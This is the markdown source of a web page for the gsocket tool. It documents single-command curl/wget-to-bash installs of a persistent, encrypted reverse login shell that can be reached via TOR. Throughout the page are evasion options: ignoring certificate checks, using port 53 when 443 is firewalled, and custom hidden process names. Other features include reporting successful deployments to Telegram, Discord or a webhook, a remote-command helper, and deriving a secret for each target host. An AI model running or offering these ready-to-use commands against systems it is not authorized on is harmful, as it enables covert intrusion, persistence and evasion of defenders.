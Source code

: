 ```yaml
---
layout: default
---
```


<p class="panel-note2" markdown="1">Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like.</p>

> _This must be the quickest way to access a system_ -- anonymous

Use either one of these three commands to _install_, _uninstall_, and _access_:

<div class="tabs-wrapper">
    <div class="tabs">
        <div class="tab">
            <input type="radio" name="css-tabs-init" id="curl-init" class="tab-switch" checked>
            <label for="curl-init" class="tab-label">Curl</label>
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
{% highlight shell %}
bash -c "$(curl -fsSL https://gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(curl -fsSL https://gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL https://gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-init" id="wget-init" class="tab-switch">
            <label for="wget-init" class="tab-label">Wget</label>
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
{% highlight shell %}
bash -c "$(wget --no-verbose -O- https://gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(wget --no-verbose -O- https://gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- https://gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

<p class="panel-note2" markdown="1">Windows user need to manually install <A HREF="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-cygwin_full.zip">the binary</A>. Contact us if you like to write a powershell deploy script.</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

<div class="tabs-wrapper">
    <div class="tabs" style="height: 25.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="curl-tricks" class="tab-switch" checked>
            <label for="curl-tricks" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
GS_NOCERTCHECK=1 bash -c "$(curl -fsSLk https://gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(curl -fsSL https://gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
curl -fsSL http://nossl.segfault.net/deploy-all.sh -o deploy-all.sh && \
bash deploy-all.sh
# alternative if port 443 is firewalled:
GS_PORT=53 bash deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="wget-tricks" class="tab-switch">
            <label for="wget-tricks" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
GS_NOCERTCHECK=1 bash -c "$(wget --no-check-certificate -qO- https://gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(wget --no-verbose -O- https://gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash deploy-all.sh
# alternative if port 443 is firewalled:
GS_PORT=53 bash deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

Useful environment variables:  

|:---|:---|
|S=|Connect to a system (or use `gs-netcat -s <secret> -il`).|
|X=|Set a predefined secret for the installation (X like in inXstallation).|
|GS_NOINST=1|Only start but without installing (will not survive a reboot).|
|GSOCKET_ARGS=|Use additonal arguments. Most often used to force TOR in combination with S=, e.g. `GSOCKET_ARGS="-T" S=<secret> bash -c "$(curl -fsSLk https://gsocket.io/x)`.|
|GS_DSTDIR=|Set the installation directory. The default is to pick the most suitable automatically. Use `find . -type d -writable`. |
|GS_URL_BASE=|Use URL for static binaries. An alternative base is https://github.com/hackerschoice/binary/raw/main/gsocket|
|GS_OSARCH=|Force architecture. The default is to pick the most suitable automatically.
|GS_DEBUG=1|Verbose output and other debug related settings. Often used together with `GS_DEBUG=1 GS_NOSTART=1 GS_NOINST=1 bash -c "$(curl -fsSL https://gsocket.io/x)"`.|
|GS_HIDDEN_NAME=|Use a custom hidden process name.|
|GS_HOST=|Use a specific GSRN server (or [your own relay](https://github.com/hackerschoice/gsocket-relay/blob/main/README2.md)). Try GS_HOST=1.2.3.4|
|GS_PORT=|Use a specific GSRN port. Try any of 22,53,67,443,7350|
|GS_TG_TOKEN=|Telegram Bot Key for reporting successfull deployments.|
|GS_TG_CHATID=|Telegram Chat ID.|
|GS_DISCORD_KEY=|Report to Discord|
|GS_WEBHOOK_KEY=|Report to webhook.site|
|TMPDIR=|Use a custom temporary directory. Try TMPDIR=$(pwd)|

If all fails:

Download the static binary from [https://github.com/hackerschoice/binary/tree/main/gsocket/bin](https://github.com/hackerschoice/binary/tree/main/gsocket/bin) (likely [gs-netcat_x86_64-alpine.tar.gz](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz)) and extract and start gs-netcat manually. There also is an (unsupported) [Windows binary](https://github.com/hackerschoice/binary/blob/main/gsocket/bin/gs-netcat_x86_64-cygwin_full.zip) or [qsocket.io](https://www.qsocket.io/).

<div class="tabs-wrapper">
    <div class="tabs" style="height: 12.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="curl-manual" class="tab-switch" checked>
            <label for="curl-manual" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
curl -fsSL https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GS_PORT=53 GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="wget-manual" class="tab-switch">
            <label for="wget-manual" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
wget -qO- https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GS_PORT=53 GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
{% endhighlight %}
            </div>
        </div>
    </div>
</div>
(Note: *GS_PORT=53* is only needed if port 443 is firewalled).

{:refdef: style="text-align: center;"}
## Advanced Tips & Tricks
{: refdef}

### 1. Run your own Deployment Server  
This method logs each successful deployment. The 1-line command creates an ephemeral and public facing HTTPS tunnel (via Cloudflare) so that your server can be behind NAT/Firewall:

{% highlight sh %}
LOG=results.log bash -c "$(curl -fsSL https://gsocket.io/xs)"
{% endhighlight %}

### 2. Execute a remote command  

{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gsexec() {
    echo "$2; exit; __START"|gs-netcat -s "$1" 2>/dev/null|sed -n '/__START/,$p'|tail +2
}
{% endhighlight %}

Then execute a remote command like this:
{% highlight sh %}
gsexec MySecretChangeMe "id; uname -a"
{% endhighlight %}

### 3. Managing Secrets  
Remembering many secrets from many deployments is cumbersome. It is easier to remember just one MASTER-SEED and derive the SECRET from the target's hostname. The following script generates a secure SECRET based on a single MASTER-SEED and the target's hostname.

{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec() {
    [[ -z $GS_SEED ]] && { echo >&2 "Please type: GS_SEED=MySuperStrongMasterSeed"; return 255; }
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    [[ ! -t 1 ]] && { echo "${str}"; return; }
    echo "DEPLOY: X=${str}"' bash -c "$(curl -fsSL https://gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(curl -fsSL https://gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}
{% endhighlight %}
{% highlight sh %}
# Set a Master Seed:
GS_SEED="ThisIsMySecretMasterSeed"

# Connect to 'alice.com'
gs-netcat -i -s $(gssec alice.com)
-----------------------------------------------------------------------------
# or show the commands to deploy on/access to 'alice.com'
gssec alice.com

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL https://gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL https://gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
{% endhighlight %}

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>


<!-- Moved JS code as includes -->
{% include footer.html %}
